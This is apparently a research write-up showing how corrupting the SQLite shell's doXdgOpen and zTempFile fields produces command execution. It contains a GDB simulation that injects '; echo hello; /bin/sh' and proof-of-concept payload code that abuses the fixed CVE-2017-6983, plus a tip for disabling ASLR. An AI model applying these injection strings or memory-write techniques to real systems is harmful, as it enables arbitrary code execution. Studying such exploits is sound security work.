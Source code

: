 # Corrupting `doXdgOpen` to Attack `SQLite`

We try two methods to corrupt `doXdgOpen` to build attacks against `SQLite`, one via GDB simulation and another via a real-world vulnerablitiy. The vulnerability has been fixed so it will not cause immediate threat to exsiting SQLite installations.

## Attack Simulation via GDB

To quickly confirm the feasiblity of building attacks, we use GDB debugger simulate an attacker who can write arbitrary value into arbitrary location through common memory safety issues, like buffer overflow or use-after-free.

In particular, we set `doXdgOpen` to `true` and set `zTempFile` to a malicious string `; echo 'hello'; /bin/sh`. Then, when the execution continues, `echo 'hello'` and `/bin/sh` will be executed.

In the first step, start sqlite

```bash
$ sqlite3
sqlite>
```

In another terminal, attach gdb to the process
```bash
$ sudo gdb -p `pgrep sqlite3`
```

Go to the `main` function frame, and update the two members:

```bash
(gdb) bt
#0  0x00007f3b44e5807b in __pselect (nfds=1, readfds=0x7ffd187094f0, writefds=0x0, exceptfds=0x0, timeout=<optimized out>, sigmask=0x7f3b45173c20 <_rl_orig_sigset>)
	at ../sysdeps/unix/sysv/linux/pselect.c:48
#1  0x00007f3b45153be9 in rl_getc () from /lib/x86_64-linux-gnu/libreadline.so.8
#2  0x00007f3b45154503 in rl_read_key () from /lib/x86_64-linux-gnu/libreadline.so.8
#3  0x00007f3b45139c82 in readline_internal_char () from /lib/x86_64-linux-gnu/libreadline.so.8
#4  0x00007f3b4513a4ed in readline () from /lib/x86_64-linux-gnu/libreadline.so.8
#5  0x0000000000431b88 in one_input_line (in=0x0, zPrior=0x0, isContinuation=0) at shell.c:656
#6  0x00000000004155b2 in process_input (p=0x7ffd187097c8) at shell.c:18343
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
(gdb) frame 7
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
19152         rc = process_input(&data);
(gdb) p data.doXdgOpen
$1 = 0 '\000'
(gdb) p data.zTempFile
$2 = 0x0
(gdb) set data.doXdgOpen = 1
(gdb) set data.zTempFile = "; echo hello; /bin/sh"
(gdb) p data.doXdgOpen
$3 = 1 '\001'
(gdb) p data.zTempFile
$4 = 0x7f3b44d42990 "; echo hello; /bin/sh"
```

Attack done. Quite gdb

```bash
(gdb) quit
```

Go to the sqlite shell, quite the shell

```bash
sqlite> .exit
sh: 1: xdg-open: not found
hello     #<- result of running "echo 'hello'"
$         #<- result of runing "/bin/sh"
```

## Attack via Real-world (Fixed) Bugs 

#### 1. Gain arbitrary memory-write primitive

We utilize the following vulnerability to construct an attack. More details about this bug is also available via this link.

* [CVE-2017-6983](cve-2017-6983.md) 

#### 2. Compile SQLite

```bash
# in sqlite folder

CC="clang -DSQLITE_DEBUG" ./configure --enable-debug
make
```

#### 3. Proof-of-Concept (PoC)

We exploit the vulnerability twice to corrupt `p->doXdgOpen` and `p->zTempFile` respectively. We disabled ASLR in this attack, so the address of `p` and faked structures are fixed. Bypassing ASLR is also feasible as demonstrated in page 60 of the slide. The complete PoC can be found in [doXdgOpen-poc.py](./doXdgOpen-poc.py).

```bash
# Corrupt p->doXdgOpen to 1

# set zMalloc (dest of memcpy) in sqlite3_value
exp = writeVal(exp, sqlite3_value_off + 0x40, doXdgOpen, 8)

# add a src string to test
exp = writeVal(exp, src_off, 0x1, 1)
```

```bash
# Corrupt p->zTempFile to ";touch hello"

# set zMalloc (dest of memcpy) in sqlite3_value
exp_2 = writeVal(exp_2, sqlite3_value_off + 0x40, zTempFile, 8)

# add a src string ptr to test
exp_2 = writeVal(exp_2, src_off, src_base_2 + 0x8, 8)

# add a src string ";touch hello"
exp_2 = writeVal(exp_2, src_off + 0x8, 0x6f6c6c6568206863756f743b, 13)
```

```bash
# clean up sqlite cache
$ rm -rf ~/.sqlite*

# We need to figure out the correct base address and shellstate address

# generate the exploit poc
$ ./poc.py

# exploit within gdb
$ gdb ./sqlite3
(gdb) b output_reset
(gdb) r < /tmp/exp

# command `touch hello` will be executed and
# we can find file "hello" in current folder.
```

## Tips

### Disable ASLR
```
cat /proc/sys/kernel/randomize_va_space
sudo sysctl kernel.randomize_va_space=0 
```

### Get size of a variable/type
```
print sizeof(val)
print sizeof(Type)
```

### Get offside of a member
```
gdb-peda$ p/x &(((Fts3Table *)0)->db)
```

### Clear cache
`rm ~/.sqlite*`

